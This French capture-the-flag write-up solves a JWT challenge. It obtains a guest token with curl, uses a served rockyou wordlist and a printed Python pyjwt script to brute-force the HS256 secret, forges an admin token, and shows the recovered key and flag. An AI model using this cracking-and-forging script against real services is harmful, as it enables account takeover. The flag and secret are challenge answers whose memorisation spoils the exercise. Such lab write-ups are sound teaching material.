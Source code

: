 # Jeton doré

## Énoncé

Nos meilleurs développeurs ont redeveloppé l'application d'authentification.

Normalement, nous sommes protégés ? Vraiment?

https://golden.izo27k5.org 

## Solution

En suivant l'URL, on tombe sur un fichier swagger qui décrit une API:

![api](api.png)

On commence par solliciter la fonction d'enregistrement qui demande en entrée un nom d'utilisateur et un mot de passe (le swagger permet de générer une requête cURL quand on ne sait pas faire) :

```console
$ curl https://golden.izo27k5.org/api/register -H "Accept: application/json" -H "Content-Type: application/json" -d '{"email": "plop", "name": "plop"}'
{"access_token":"eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJmcmVzaCI6ZmFsc2UsImlhdCI6MTY2MzY5MTE1MSwianRpIjoiMGU4ZDk3MGUtZjZmNi00NTJiLWJjMTYtZDhkM2E2OTg2ZTQzIiwidHlwZSI6ImFjY2VzcyIsInN1YiI6bnVsbCwibmJmIjoxNjYzNjkxMTUxLCJleHAiOjE2NjM2OTIwNTEsInJvbGUiOiJndWVzdCJ9.tol3KEjAGIX-HFV4DrjnVJImXJLRRI6aTPGpV_sJOyY"}
```

En retour, on a un token qui va nous permettre d'appeler les autres fonctions. On commence par `/download`, et on se rend compte que l'API nous retourne un fichier, une archive ZIP pour être précis :

```console
$ curl https://golden.izo27k5.org/api/download -H "Accept: application/json" -H "Content-Type: application/json" -H "Authorization: Bearer eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJmcmVzaCI6ZmFsc2UsImlhdCI6MTY2MzY5MTExMywianRpIjoiMGZmNWU4ZjAtMzgyNC00ZjY5LWI5NjMtZDY2NGNiZWY4Mjc4IiwidHlwZSI6ImFjY2VzcyIsInN1YiI6bnVsbCwibmJmIjoxNjYzNjkxMTEzLCJleHAiOjE2NjM2OTIwMTMsInJvbGUiOiJndWVzdCJ9.3j3R3GOzkq6gpyv_pcSq6wOlvre5-YZkqB6eSwlrcec" -o download.zip
$ unzip -t download.zip 
Archive:  download.zip
    testing: rockyou.txt              OK
No errors detected in compressed data of download.zip.
```

Tiens, une liste de mots de passe ! Serait-il possible que cela nous serve pour la suite ? ;-)

Essayons de solliciter l'autre fonction :
```console
$ curl https://golden.izo27k5.org/api/protected -H "Accept: application/json" -H "Content-Type: application/json" -H "Authorization: Bearer eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJmcmVzaCI6ZmFsc2UsImlhdCI6MTY2MzY5MTExMywianRpIjoiMGZmNWU4ZjAtMzgyNC00ZjY5LWI5NjMtZDY2NGNiZWY4Mjc4IiwidHlwZSI6ImFjY2VzcyIsInN1YiI6bnVsbCwibmJmIjoxNjYzNjkxMTEzLCJleHAiOjE2NjM2OTIwMTMsInJvbGUiOiJndWVzdCJ9.3j3R3GOzkq6gpyv_pcSq6wOlvre5-YZkqB6eSwlrcec" 
{"flag":"no admin, no flag","logged_in_as":"guest"}
```

Ok, on n'a visiblement pas les droits. Jetons un coup d'œil au token qui nous a été fourni, ça ressemble à un [JWT](https://jwt.io/) qui porte probablement notre rôle :

![jwt](jwt.png)

Les points importants :
- effectivement, le rôle `guest` est porté par le token.
- le token est de type `HS256`, ce qui signifie qu'il est signé à partir d'une clef secrète.

Idéalement, il faudrait qu'on puisse créer un token JWT dont le rôle vaudrait `admin`. En théorie, ce n'est pas possible, car on n'a pas la clef secrète utilisée pour la signature. Mais comme on nous a donné une wordlist avant, se pourrait-il qu'elle contienne la clef utilisée ?

Pour confirmer, on se code un script python s'appuyant sur le module [pyjwt](https://pyjwt.readthedocs.io/en/latest/) qui va:
- prendre un token valide en argument.
- trouver la clef secrète en tentant de valider le token pour chacun des mots de passe de la wordlist.
- si on trouve la clef secrète, regénérer un token avec le bon rôle.

```python
#!/usr/bin/env python3

# pip install pyjwt[crypto]
import jwt
import sys

if len(sys.argv) != 2:
    print(f'Syntax: {sys.argv[0]} <valid_token>')
    exit(-1)
token=sys.argv[1]

passwords = open('rockyou.txt', 'rb').read().splitlines()
for p in passwords:
    try: 
        # On tente de valider le token (si raté, exception !)
        content = jwt.decode(token, key=p, algorithms=['HS256', ])
        print(f'Found the secret key: {p}')
        print(f'Initial token content: {content}')
        
        # On forge un nouveau token
        content['role'] = 'admin'
        print(f'New token content: {content}')
        token = jwt.encode(content, key=p, algorithm="HS256")
        print(f'Forged token: {token}')
        exit(0)

    except Exception as e:
        pass
```

Attention, les tokens expirent, donc il faut lancer le script en lui passant un token relativement récent. On obtient :

```console
$ python3 forge_jwt.py eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJmcmVzaCI6ZmFsc2UsImlhdCI6MTY2MzY5MjYzNywianRpIjoiM2VjMDkxMzMtMGZlMi00NjJmLWI1NmMtOTViM2JkYzJlZDYyIiwidHlwZSI6ImFjY2VzcyIsInN1YiI6bnVsbCwibmJmIjoxNjYzNjkyNjM3LCJleHAiOjE2NjM2OTM1MzcsInJvbGUiOiJndWVzdCJ9.Z-5rDJqeARx-tQByVewGLIyGcN88G_14pgI8STLwha4
Found the secret key: b'norisknofun'
Initial token content: {'fresh': False, 'iat': 1663692637, 'jti': '3ec09133-0fe2-462f-b56c-95b3bdc2ed62', 'type': 'access', 'sub': None, 'nbf': 1663692637, 'exp': 1663693537, 'role': 'guest'}
New token content: {'fresh': False, 'iat': 1663692637, 'jti': '3ec09133-0fe2-462f-b56c-95b3bdc2ed62', 'type': 'access', 'sub': None, 'nbf': 1663692637, 'exp': 1663693537, 'role': 'admin'}
Forged token: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJmcmVzaCI6ZmFsc2UsImlhdCI6MTY2MzY5MjYzNywianRpIjoiM2VjMDkxMzMtMGZlMi00NjJmLWI1NmMtOTViM2JkYzJlZDYyIiwidHlwZSI6ImFjY2VzcyIsInN1YiI6bnVsbCwibmJmIjoxNjYzNjkyNjM3LCJleHAiOjE2NjM2OTM1MzcsInJvbGUiOiJhZG1pbiJ9.vt7I3RQYGqvGXTPuqgfOGv9i1FMrN8fBKeGZFoKySfE
```

On croise les doigts en rappelant la fonction `/protected` à l'aide de notre token tout neuf :
```console
$ curl https://golden.izo27k5.org/api/protected -H "Accept: application/json" -H "Content-Type: application/json" -H "Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJmcmVzaCI6ZmFsc2UsImlhdCI6MTY2MzY5MjYzNywianRpIjoiM2VjMDkxMzMtMGZlMi00NjJmLWI1NmMtOTViM2JkYzJlZDYyIiwidHlwZSI6ImFjY2VzcyIsInN1YiI6bnVsbCwibmJmIjoxNjYzNjkyNjM3LCJleHAiOjE2NjM2OTM1MzcsInJvbGUiOiJhZG1pbiJ9.vt7I3RQYGqvGXTPuqgfOGv9i1FMrN8fBKeGZFoKySfE" 
{"flag":"INNN{T0K3n_N33d_T0_B3_S3cur3d}","logged_in_as":"admin"}
```
